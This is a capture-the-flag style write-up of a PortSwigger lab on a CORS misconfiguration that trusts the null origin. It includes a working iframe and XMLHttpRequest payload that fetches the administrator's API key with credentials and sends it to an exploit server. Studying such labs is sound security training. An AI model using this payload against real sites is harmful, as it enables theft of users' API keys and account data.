

# Write-up: CORS vulnerability with trusted null origin

Lab-Link: <https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack>  
Difficulty: APPRENTICE  
  

## Lab description


### Goals

- Create a malicious JS code:
    - which can retreive the administrator's API key
    - and sends it to exploit server

### Note

Firefox and (Burp's) Chromium no longer fall victim to the CORS vulnerability, when viewing the exploit on the exploit server. It is still exploitable in the context of the lab, due to the setup on your backend, which still triggers the admin requesting the payload.

**Reference:** https://forum.portswigger.net/thread/cors-origin-null-lab-not-working-in-firefox-and-chromium-anymore-0ff5d553

## Steps

Firstly, login into the website using given credentials `wiener:peter` and intercept the request while logging.


We can see the request for url `/accountDetails` whose respone contains the API key.


Now, if we send the request with some malicious looking origin like `Origin: evil.com`, we still get successful response but without any header `Access-Control-Allow-Origin`. 


Lets now try with null Origin as `Origin: null`, now we get response with `Access-Control-Allow-Origin: null`. This confirms that the application has whitelisted null origin.


Now, we need to write a javascript code with `<iframe>` that will:
1. call the `/accountDetails` page
2. fetches the API key
3. issues a request to the exploit server containing the value

```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0aff000c0435b920801c35b400b50099.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        const obj = JSON.parse(this.responseText)
        location='https://exploit-0ab300dc04ceb9b0803434e5012500d2.exploit-server.net/log?username='+obj.username+'&APIkey='+obj.apikey;
    };
</script>"></iframe>
```

Now, Go to exploit server and paste the code and "Deliver the exploit to victim".


After checking the "Access log" from exploit server we can see the administrator's API Key


We can now submit this API key of administrator.

Hence, lab is solved.


